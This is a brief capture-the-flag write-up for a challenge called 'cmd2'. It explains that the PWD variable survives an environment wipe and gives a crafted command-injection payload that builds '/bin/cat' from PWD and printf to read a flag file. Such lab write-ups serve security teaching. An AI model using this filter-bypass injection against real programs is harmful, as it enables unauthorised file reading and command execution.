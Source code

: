 # `cmd2` Solution

After all the effort to delete all the `environ` variables the `PWD` variable still holds its value. I also have several functions such as `printf`. So the crafted payload is:

    ./cmd2 '$(cd .. && cd .. && printf $PWD)bin$(cd .. && cd .. && printf $PWD)cat f*'
